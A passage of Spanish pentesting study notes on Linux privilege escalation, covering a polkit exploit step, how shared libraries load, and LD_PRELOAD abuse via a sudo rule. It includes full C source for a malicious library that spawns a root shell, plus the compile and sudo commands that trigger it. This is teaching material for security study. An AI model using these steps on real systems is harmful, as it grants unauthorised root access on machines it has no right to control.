 	```bash
	./exploit.polkit.sh
	```
	que nos convierte en root automáticamente en root
### Bibliotecas compartidas
#### Teoría
- Las shared libraries son librerías que utilizan los binarios ya compiladas, y hay dos tipos: estáticas (`*.a`) que se incluyen dentro del binario a compilar y dinámicas (`*.so`), que se cargan en tiempo de ejecución (el binario solo las referencia)
- Linux busca las librerías `.so` siguiendo este orden
	-  **`LD_PRELOAD`** (si está definido)
	- **`LD_LIBRARY_PATH`** (si está definido)
	- **`RUNPATH`** o **`RPATH`** (si están en el binario)
	- Directorios definidos en `/etc/ld.so.conf` y `/etc/ld.so.conf.d/*`
	- Directorios estándar como `/lib`, `/usr/lib`, `/lib64`
- `LD_PRELOAD`es una variable de entorno que le dice al sistema: “Antes de cargar cualquier librería, **carga esta primero**.” Si tenemos permiso para ejecutar algún binario como sudo, podemos hacer que  ese binario cargue una librería `.so` maliciosa
- Podemos comprobar con la herramienta `ldd` que librerías se ejecutan antes de cargar un binario
#### Ejemplo
- Supongamos que obtenemos lo siguiente al ejecutar `sudo -l`
	```bash
	Matching Defaults entries for daniel.carter on NIX02:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD
	
	User daniel.carter may run the following commands on NIX02:
	    (root) NOPASSWD: /usr/sbin/apache2 restart
	```
	No está en gtfobins y está la ruta absoluta, por lo que no podemos intentar algunos ataques ya vistos
- Podemos ejecutar un binario como root y en los defaults tenemos `env_keep+=LD_PRELOAD`, lo que significa que podemos utilizar `LD_PRELOAD`
- Creamos una librería maliciosa
	```C
	#include <stdio.h>
	#include <stdlib.h>
	#include <unistd.h>
	
	void _init() {
	    unsetenv("LD_PRELOAD");
	    setgid(0);
	    setuid(0);
	    system("/bin/bash");
	}
	```
	`init()` se ejecuta automáticamente al cargar la librería
- Compilamos
	```bash
	gcc -fPIC -shared -o /tmp/root.so root.c -nostartfiles
	```
	- `-fPIC` → posición independiente (requisito para librerías compartidas)
	- `-shared` → indica que es una `.so`
	- `-nostartfiles` → no incluye funciones de inicio estándar (para que `_init` se ejecute lo antes
- Ejecutamos el binario con `LD_PRELOAD`
	```bash
	sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart
	```
- Y tenemos `/root`
### Secuestro de objetos compartidos
- Supongamos el caso de que tenemos un binario con el bit SUID, `payroll`
	```bash